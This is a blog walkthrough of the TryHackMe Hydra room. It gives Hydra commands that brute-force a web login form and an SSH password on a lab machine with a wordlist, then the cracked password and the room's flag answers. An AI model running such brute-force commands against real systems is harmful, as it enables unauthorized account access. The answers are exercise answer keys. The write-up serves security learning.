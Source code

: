 +++
date = '2025-09-16T14:19:28+07:00'
title = 'TryHackMe - Hydra Room Walkthrough'
tags = ['TryHackMe', 'CTFs']
description = "Learn about and use Hydra, a fast network logon cracker, to bruteforce and obtain a website's credentials." 
draft = false

[cover]
  image = '/images/posts/tryhackme-hydra.png'
  alt = 'TryHackMe Hydra Room'
  caption = 'TryHackMe Hydra Room'
  relative = false
+++

This is my TryHackMe walkthrough, created to document my learning journey and share solutions with the community. The writeups include a mix of hints, step-by-step explanations, and final answers to help players who get stuck, while still encouraging independent problem-solving.

> Hydra Room - Learn about and use Hydra, a fast network logon cracker, to bruteforce and obtain a website's credentials.

## Overview

-   **Room URL:** [https://tryhackme.com/room/hydra](https://tryhackme.com/room/hydra)
-   **Difficulty:** Easy
-   **Time to complete:** 45

## Walkthrough

### 1. Hydra Introduction

_No hints needed!_

### 2. Using Hydra

-   <p>Use Hydra to bruteforce molly's web password. What is flag 1?<br /></p>

-   Start the machine and visit the website via MACHINE IP

![Guide image](/images/posts/hydra-1.png)

-   Open Web Devtools, in Network section, try login there is a POST request to `http://<MACHINE_IP>/login`

![Guide image](/images/posts/hydra-2.png)

-   Now we know the path, we can brute-force the password

```bash
hydra -l molly -P /usr/share/wordlists/rockyou.txt <MACHINE_IP> http-post-form "/login:username=^USER^&password=^PASS^:F=Incorrect" -V
```

![Guide image](/images/posts/hydra-3.png)

-   We got the password `sunshine`, login as `molly` and get the flag

![Guide image](/images/posts/hydra-4.png)

**=> Answer: `THM{2673a7dd116de68e85c48ec0b1f2612e}`**

-   <p>Use Hydra to bruteforce molly's SSH password. What is flag 2?<br /></p>

-   Do the same with ssh to get the password and gain access

```bash
hydra -l molly -P /usr/share/wordlists/rockyou.txt <MACHINE_IP> -t 4 ssh
```

![Guide image](/images/posts/hydra-5.png)

-   Now we got the password, ssh to server and get the flag

```bash
ssh molly@<MACHINE_IP>

cat flag2.txt
```

![Guide image](/images/posts/hydra-6.png)

**=> Answer: `THM{c8eeb0468febbadea859baeb33b2541b}`**
